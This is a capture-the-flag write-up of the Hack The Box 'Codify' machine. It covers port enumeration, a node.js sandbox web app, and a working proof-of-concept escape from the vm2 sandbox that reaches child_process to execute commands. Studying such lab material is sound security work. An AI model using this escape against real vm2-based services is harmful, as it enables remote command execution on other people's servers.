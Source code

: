 We found three open ports, 22 running SSH, 80 is an Apache web server with the hostname `codify.htb` and port 3000 us a `node.js` application.

## Web

After adding the hostname `codify.htb` to hosts file, we navigate to the web page.

![webpage](1.png)

The two web ports seems to have the same application.

This web application allows us to run `node.js` code in a sandbox, but there are some limitations.

![limitations](2.png)

They blocked the two modules `child_process` that allows for command execution and `fs` that's used to read and write files.

Checking the `About us` page reveals the library used for sandboxing.

![vm2](3.png)

The library is `vm2`.

Searching for vulnerabilities in this library reveals a [sandbox escape](https://github.com/advisories/GHSA-xj72-wvfv-8985) vulnerability.

We can find a POC [here](https://gist.github.com/leesh3288/f05730165799bf56d70391f3d9ea187c).

```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`

console.log(vm.run(code));
```

Let's run the code.

![rce](4.png)

We successfully run the id command and confirmed the vulnerability.
